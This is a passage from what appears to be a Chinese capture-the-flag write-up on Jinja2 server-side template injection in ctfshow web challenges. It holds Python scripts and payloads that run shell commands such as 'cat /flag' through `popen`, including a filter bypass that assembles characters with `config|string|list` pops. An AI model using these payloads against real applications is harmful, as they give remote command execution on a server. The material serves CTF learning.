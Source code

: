```py
            'x5': "__import__('os').popen('cat /flag').read({})".format(i),
            'x6': "{}".format(flag+j)
        }

        response = requests.get(url,params=params)
        if 'evo1ution' in response.text:
            flag += j
            print(flag)
            if j == '}':
                exit()
            break

# ctfshow{8ff9262c-1994-4916-abaf-e24871b2d07a}
```

#### 过滤request

web369

- 字符拼接

我们要得到`{%print((lipsum|attr('__globals__')).get('os').popen('cat /flag').read())%}`

```py
import requests
import urllib
import time
import re

url = 'http://478231cf-6cd6-4958-84fd-f3de3b022397.challenge.ctf.show/'
# target = "__globals__" # (config|string|list).pop(74).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(6).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(2).lower()~(config|string|list).pop(33).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(42).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(74).lower()
# target = "os" # (config|string|list).pop(2).lower()~(config|string|list).pop(42).lower()
target = "cat /flag" # (config|string|list).pop(1).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(23).lower()~(config|string|list).pop(7).lower()~(config|string|list).pop(279).lower()~(config|string|list).pop(4).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(6).lower()

flag = ''
for i in target:
    for j in range(917):
        # time.sleep(0.1)
        payload = "{{%print((config|string|list).pop({}).lower())%}}".format(j)
        params = {
            'name': payload,
        }
        response = requests.get(url,params=params)
        s = re.findall(r'<h3>(.*)</h3>',response.text)[0]
        # print(j,"==>",s)
        if i == s:
            flag += "(config|string|list).pop({}).lower()~".format(j)
            # print(flag)
            break
print(flag[:-1])
```

